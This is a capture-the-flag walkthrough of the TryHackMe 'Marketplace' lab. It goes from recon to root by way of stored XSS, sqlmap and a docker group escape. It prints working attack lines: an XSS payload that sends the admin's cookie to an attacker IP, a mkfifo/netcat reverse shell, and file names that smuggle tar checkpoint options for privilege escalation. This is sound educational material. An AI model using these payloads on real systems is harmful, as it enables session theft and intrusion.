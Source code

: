 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt -Pn 10.10.73.172
```
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/1.png">

# Enumeration
We will start by browsing the website on port 80. We are welcomed by a website which shows us two messages of michael and jake. We tried login in as both users with simple passwords, but without any luck. Also tried if i could use SQL injection on the password field:
```
' OR 1=1;--
```
None of the above worked. But what i could do was create a new account (test:test) and add new messages. These were vulnerable to XSS attack:
```js
<script>alert('XSS');</script>
```
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/2.png">

<br>
I got kinda stuck for a moment. Not sure how we could abuse the fact that the website has a XSS vulnerability. I found out that we can report messages to a admin. We could then try to steal his cookie. After some searching around i found a usefull script that could help me: XSS-cookie-stealer.py.

> Download from https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py

Change the listening host in the script and run it. I added the following script as a message and reported it so it would be checked by an admin.
```js
<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.9.1.79:8888/?"+document.cookie},1010)</script>
```

> I used the script from JSshell.
>https://www.kitploit.com/2020/06/jsshell-javascript-reverse-shell-for.html
https://github.com/shelld3v/JSshell

We got the admin cookie:
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/3.png">

After changing the cookie in FireFox (under Web Developer ->Storage Inspector -> Cookies) we now have access to the admin page.
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/4.png">

As I browse around the admin panel i spot SQL queries on the different users:
```
http://10.10.73.172/admin?user=1
```
We could try if the website is vulnerable to SQL injection. We'll have to add the admin cookie as parameter:
```
sqlmap -u "http://10.10.73.172/admin?user=1" --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDI3NjQ3ODN9.QOwcf_d5Dc8HqridxucamgHW0vhlZMLC770K24YHBoU' -dump --technique=U --delay=2
```

We get hashes from users but i was unable to crack them.
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/5.png">

Spotted a message with a password:
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/6.png">
```
@b_ENXkGYUCAv3zJ
```

# Initial foothold
Let's try to connect with SSH with the known usernames and this password:
```
ssh jake@10.10.172.147
```

We got a shell and got user. User michael didn't work.

# Privilege escalation
With ```sudo -l``` we spot a script that michael can run with sudo rights:
<img src ="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Marketplace/assets/8.png">

I knew there was a way to exploit the wildcard in tar for privilege escalation.
> Read this post: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.2.169 4444 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```


But running the script with ```sudo -u michael /opt/backups/backup.sh``` command give me an error so I decided to move the backup.tar to bk.tar and again run this command because on backup.tar only jake has privileges so after I changed the backup.tar to bk.tar. I again run the command  and this time I got a reverse connection as user michael.

This user is also in the docker group. Searched GTFOBin and found:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
We are now root



